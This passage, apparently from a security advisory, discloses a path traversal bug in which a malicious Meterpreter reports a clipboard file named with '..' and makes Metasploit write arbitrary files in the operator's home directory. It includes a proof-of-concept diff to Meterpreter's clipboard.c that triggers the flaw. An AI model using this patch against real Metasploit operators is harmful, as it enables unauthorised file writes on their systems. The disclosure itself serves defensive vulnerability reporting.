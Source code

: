 However, Meterpreter has full control over the path to the file that was
purportedly copied to the clipboard, and so a directory named `C:/Foo/..` will
be downloaded recursively to `/home/justin/looted_clipboard/..` allowing for
the writing of arbitrary files in `/home/justin/`

### POC

1\. Patch the Windows Meterpreter source code to produce a malicious Meterpreter

We will produce a malicious Meterpreter that returns malformed responses to
Metasploit.

Note that the patching and execution of a modified Meterpreter is just one
method by which the vulnerability can be triggered. Importantly, exploitation
does _not_ require the victim's Metasploit Framework to be modified. The
vulnerability is within Metasploit itself.

To trigger the bug, Meterpreter needs to tell Metasploit that a file with a
filename of `..` has been copied to the clipboard. As `..` is an illegal
filename on most (all?) filesystems, we will patch Meterpreter to hardcode the
fact that a file named `C:/doot/doot/..` has been copied to the clipboard.

Patch the `dump_clipboard_capture` function within
`metasploit-payloads/c/meterpreter/source/extensions/extapi/clipboard.c` as
follows:

```text
diff --git a/c/meterpreter/source/extensions/extapi/clipboard.c b/c/meterpreter/source/extensions/extapi/clipboard.c
index a9c5c98..3dfa24e 100644
--- a/c/meterpreter/source/extensions/extapi/clipboard.c
+++ b/c/meterpreter/source/extensions/extapi/clipboard.c
@@ -370,17 +370,17 @@ VOID dump_clipboard_capture(Packet* pResponse, ClipboardCapture* pCapture, BOOL
                pFile = pCapture->lpFiles;

                while (pFile)
                {
                        dprintf("[EXTAPI CLIPBOARD] Dumping file %p", pFile);
                        file = packet_create_group();

                        dprintf("[EXTAPI CLIPBOARD] Adding path %s", pFile->lpPath);
-                       packet_add_tlv_string(file, TLV_TYPE_EXT_CLIPBOARD_TYPE_FILE_NAME, pFile->lpPath);
+                       packet_add_tlv_string(file, TLV_TYPE_EXT_CLIPBOARD_TYPE_FILE_NAME, "C:\\doot\\doot\\..");

                        dprintf("[EXTAPI CLIPBOARD] Adding size %llu", pFile->qwSize);
                        packet_add_tlv_qword(file, TLV_TYPE_EXT_CLIPBOARD_TYPE_FILE_SIZE, pFile->qwSize);

                        dprintf("[EXTAPI CLIPBOARD] Adding group");
                        packet_add_group(group, TLV_TYPE_EXT_CLIPBOARD_TYPE_FILE, file);

                        pFile = pFile->pNext;
```
